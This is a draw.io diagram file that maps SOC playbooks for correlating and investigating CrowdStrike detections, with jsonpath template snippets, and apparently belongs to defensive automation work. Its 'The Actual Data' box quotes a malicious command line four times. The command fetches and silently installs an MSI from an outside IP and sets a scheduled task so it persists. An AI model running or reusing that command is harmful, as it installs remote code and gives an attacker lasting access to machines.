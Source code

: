 <mxfile version="22.0.4" type="github">
  <diagram name="Page-1" id="wvW3ehxdYdoYtSaxa3fH">
    <mxGraphModel dx="875" dy="478" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="NKeEgVbL9whLPdXC6YmX-3" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-1" target="NKeEgVbL9whLPdXC6YmX-2">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-1" value="Crowdstrike Event Correlation" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="60" y="1390" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-2" target="NKeEgVbL9whLPdXC6YmX-4">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-2" value="Triggers&lt;br&gt;- On Event Ingestion" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="260" y="1390" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-9" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-4" target="NKeEgVbL9whLPdXC6YmX-22">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="670" y="1420" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-4" value="Correlation" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="460" y="1390" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-11" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-8" target="NKeEgVbL9whLPdXC6YmX-10">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-16" value="True" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-11">
          <mxGeometry x="0.151" y="-3" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-14" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-8" target="NKeEgVbL9whLPdXC6YmX-13">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-17" value="False" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-14">
          <mxGeometry x="0.042" y="-4" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-8" value="Any Incident Linked?" style="rhombus;whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="860" y="1370" width="100" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-10" value="Added to the Related Incident" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1119" y="1320" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-19" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-13" target="NKeEgVbL9whLPdXC6YmX-18">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-13" value="Check Artifacts" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1119" y="1470" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-21" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-18" target="NKeEgVbL9whLPdXC6YmX-20">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-18" value="Escalate to Incident" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1319" y="1470" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-20" value="Passdown" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1519" y="1470" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-23" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-22" target="NKeEgVbL9whLPdXC6YmX-8">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-22" value="Link Incident with Same ID&lt;br&gt;Command - Link to Related Event Incident" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="650" y="1390" width="150" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-24" value="" style="endArrow=none;html=1;rounded=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="730" y="1390" as="sourcePoint" />
            <mxPoint x="730" y="1320" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-28" value="&lt;h1&gt;API Response&lt;/h1&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;{&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; &quot;Escalate Incidents&quot;: [&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; &amp;nbsp; &quot;20230425-1573&quot;&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; ]&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;}&lt;/p&gt;" style="text;html=1;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;strokeColor=default;fillColor=default;" vertex="1" parent="1">
          <mxGeometry x="640" y="1160" width="180" height="160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-33" value="" style="endArrow=none;html=1;rounded=0;entryX=0.504;entryY=0.98;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-8">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="910" y="1520" as="sourcePoint" />
            <mxPoint x="920.86" y="1470" as="targetPoint" />
            <Array as="points">
              <mxPoint x="910" y="1490" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-45" value="&lt;h1&gt;Condition Type - Input&lt;/h1&gt;&lt;p&gt;{% set returnData = PlaybookData | jsonpath(&#39;$.[&quot;Link Incident with Same ID&quot;].returnData&#39;) | string_to_json_object%}&lt;/p&gt;&lt;p&gt;&lt;br&gt;&lt;/p&gt;&lt;p&gt;{{returnData|jsonpath(&#39;$.[&quot;Escalate to Incidents&quot;]&#39;)|to_list|length &amp;gt; 0}}&lt;/p&gt;" style="text;html=1;strokeColor=default;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="815" y="1520" width="190" height="240" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-48" value="&lt;h1&gt;Data Formatter&lt;br&gt;&lt;/h1&gt;&lt;p&gt;{{{&quot;EscalateTo&quot;: PlaybookData | jsonpath(&#39;$.[&quot;Check Artifacts&quot;].returnData.Data[*].IncidentNo&#39;)|to_list}}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=default;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1210" y="1630" width="360" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-49" value="" style="endArrow=none;html=1;rounded=0;entryX=0.592;entryY=1.016;entryDx=0;entryDy=0;entryPerimeter=0;exitX=0.473;exitY=0;exitDx=0;exitDy=0;exitPerimeter=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-48">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1320" y="1579.04" as="sourcePoint" />
            <mxPoint x="1380.04" y="1530" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-50" value="" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="50" y="1090" width="1600" height="740" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-52" value="&lt;font style=&quot;font-size: 24px;&quot;&gt;Nested Playbook For CrowdStrike&lt;/font&gt;" style="text;html=1;strokeColor=#6c8ebf;fillColor=#dae8fc;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="80" y="1110" width="320" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-56" value="&lt;font style=&quot;font-size: 24px;&quot;&gt;Incident Playbooks - Cross Stack Investigation&lt;br&gt;&lt;/font&gt;" style="text;html=1;strokeColor=#6c8ebf;fillColor=#dae8fc;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="80" y="110" width="320" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-57" value="" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="100" y="110" width="5410" height="1000" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-60" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-58" target="NKeEgVbL9whLPdXC6YmX-59">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-72" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-58" target="NKeEgVbL9whLPdXC6YmX-71">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-58" value="CrowdStrike Data Ingestion" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="120" y="370" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-66" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-59" target="NKeEgVbL9whLPdXC6YmX-65">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-59" value="Investigation-Initial Findings&lt;br&gt;Commands - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="320" y="370" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-61" value="" style="endArrow=none;html=1;rounded=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-62" target="NKeEgVbL9whLPdXC6YmX-59">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="409.99" y="510.0" as="sourcePoint" />
            <mxPoint x="409.71" y="438.2" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-62" value="&lt;h1&gt;The Actual Data&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Host Name&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Source IP&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Command Line&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Event Time&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Data Source&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ]&lt;/p&gt;&lt;p&gt;&amp;nbsp; }&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="285" y="500" width="250" height="160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-68" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-65" target="NKeEgVbL9whLPdXC6YmX-67">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-65" value="Investigation-Initial Finding Behaviors&lt;br style=&quot;border-color: var(--border-color);&quot;&gt;Commands - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="570" y="370" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-67" value="Investigation-Summary&lt;br&gt;Commands - Add Investigation Details" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="830" y="370" width="140" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-76" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-71" target="NKeEgVbL9whLPdXC6YmX-75">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-71" value="Get Command Lines&lt;br&gt;Data Formatter" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="320" y="270" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-73" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-71" target="NKeEgVbL9whLPdXC6YmX-74">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="410" y="260" as="sourcePoint" />
            <mxPoint x="460" y="210" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-74" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;{{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[*].EventData.behaviors[*].cmdline&#39;)|unique}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="420" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-78" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-75" target="NKeEgVbL9whLPdXC6YmX-77">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-75" value="Extract File Info&lt;br&gt;Commands - RSA_ExtractFileInfo" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="570" y="270" width="190" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-91" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-77" target="NKeEgVbL9whLPdXC6YmX-86">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-77" value="Crowdstrike Get File Hash&lt;br&gt;Commands - RSA_CrowdstrikeGetFileHash" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="830" y="270" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-79" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;{{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[*].EventData.behaviors[*].cmdline&#39;)|unique}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="650" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-80" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-79">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="660" y="270" as="sourcePoint" />
            <mxPoint x="770" y="240" as="targetPoint" />
          </mxGeometry>
        </mxCell>
